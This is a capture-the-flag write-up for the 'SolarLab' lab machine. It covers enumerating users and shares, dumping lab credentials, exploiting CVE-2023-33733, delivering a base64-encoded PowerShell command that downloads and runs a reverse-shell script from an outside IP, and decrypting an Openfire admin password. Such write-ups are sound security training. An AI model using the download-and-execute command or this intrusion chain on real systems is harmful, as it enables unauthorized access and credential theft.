 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/4hKxtsW.png)
- User
	- BLAKE BYTE
	- CLAUDIA SPRINGER
	- ALEXANDER KNIGHT
	- Paul Squillace
	- Katy Brown
	- Gayle.Rennie
	- Alison Melville
	- Jackie
	- Paul Serban
#### Port `80`
![](https://i.imgur.com/vKQ88FF.png)
![](https://i.imgur.com/PHKgajz.png)

- `With military-grade encryption technology and cutting-edge security measures, your conversations are safe from prying eyes.`
- Some Injectable path: `http://solarlab.htb/?first_name=rere&last_name=reer&contact_email=rex%40rex.com&contact_subject=dasdas&message=dsadsa`
![](https://i.imgur.com/dHrRlGs.png)

#### Port `445`
![](https://i.imgur.com/NRyKf02.png)
![](https://i.imgur.com/oVOlUWZ.png)
![](https://i.imgur.com/XF6WQFE.png)
```
Amazon.com  101-333 Alexander.knight@gmail.com  al;ksdhfewoiuh
Pefcu   A233J   KAlexander  dkjafblkjadsfgl
Chase       Alexander.knight@gmail.com  d398sadsknr390
Fidelity        blake.byte  ThisCanB3typedeasily1@
Signa       AlexanderK  danenacia9234n
        ClaudiaS    dadsfawe9dafkn
```
- The smb works with any account
#### Port `6791`
![](https://i.imgur.com/wwK6i0E.png)
- If you enter Wrong User name it says "user not found" but if it is correct username it says error
![](https://i.imgur.com/p2IRTVG.png)
- Users
	- AlexanderK : bitchs
	- ClaudiaS : kitty2
- ![](https://i.imgur.com/tT4T91M.png)
![](https://i.imgur.com/ThBznbq.png)
![](https://i.imgur.com/XQVQIuM.png)

- ` blakeb : ThisCanB3typedeasily1@ `
### Gaining Access
![](https://i.imgur.com/nEkwAUH.png)
https://github.com/c53elyas/CVE-2023-33733
- Just Dont use the `<para>` use `<p>`

![](https://i.imgur.com/rmJ183W.png)
![](https://i.imgur.com/aWIZ5ET.png)

![](https://i.imgur.com/qkF1r7P.png)

![](https://i.imgur.com/9Kjnmgn.png)
 - Deliverying payload
	 -  I made a nishang payload and base64 IEX ![](https://i.imgur.com/hzllKzT.png)
	 - `echo "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.99/shell.ps1')"  | iconv -t UTF-16LE | base64 -w 0` ![](https://i.imgur.com/PEZb1Dm.png)
	- ![](https://i.imgur.com/nDh4XkN.png)
## Internal
### Enumeration
```
   Directory: C:\Users\blake\Documents\app\reports\instance


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/17/2023  12:11 PM          12288 users.db


    Directory: C:\Users\blake\Documents\app\instance


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/2/2024  12:30 PM          12288 users.db

    Directory: C:\Users\blake\Documents\app


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/2/2024  12:30 PM                instance
d-----         5/12/2024   3:14 PM                reports
d-----        11/17/2023  10:01 AM                static
d-----        11/17/2023  10:01 AM                templates
d-----         5/12/2024   3:10 PM                __pycache__
-a----        11/17/2023   9:59 AM           1278 app.py
-a----        11/16/2023   2:17 PM            315 models.py
-a----        11/18/2023   6:59 PM           7790 routes.py
-a----          5/2/2024   6:26 PM           3352 utils.py
```
![](https://i.imgur.com/XLHfhQl.png)
```shell
PS C:\Users\blake\Documents\app\instance> sqlite users.db
sqlite> select * from user;
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard
```
### Gaining Access
![](https://i.imgur.com/fI8dXNj.png)
![](https://i.imgur.com/p28VAHB.png)
`C:\Windows\Panther\Unattend.xml`
![](https://i.imgur.com/pIV5lcQ.png)
![](https://i.imgur.com/4oEZhbF.png)
![](https://i.imgur.com/E2yFZ2N.png)
- I dont know the password
- ![](https://i.imgur.com/XPaDvWG.png)
- The Openfire is not accessable.
- Then I remember the user Openfire, and tried all the password i have from the database. and i got shell with it.
	- ![](https://i.imgur.com/oo8ZtaN.png)- 
- Now i can access the file
	- ![](https://i.imgur.com/ous88OU.png)
### Maintaining Access
![](https://i.imgur.com/VDwE3KP.png)
- the hash is not being cracked by hashcat so..  checked for openfire hash cracks
	- ![](https://i.imgur.com/GdxomTw.png)
- https://github.com/c0rdis/openfire_decrypt
![](https://i.imgur.com/Z3vfmDf.png)
```shell
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))

<SNIP>


INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')


# Summary
pass: becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442
serverkey: 9MwNQcJ9bF4YeyZDdns5gvXp620=
storedkey: gjMoswpK+HakPdvLIvp6eLKlYh0=

```
![](https://i.imgur.com/81RSr2C.png)
![](https://i.imgur.com/wMXLA8q.png)
- Finally Cracked it
```shell
rexder@HunterDragon ~/C/H/m/s/openfire_decrypt (master) [1]> java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
 (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```
` admin : ThisPasswordShouldDo!@ `
we are innnn
![](https://i.imgur.com/R7FSGf7.png)
![](https://i.imgur.com/1ZXTRbH.png)
![](https://i.imgur.com/CUoKhde.png)

# Random Notes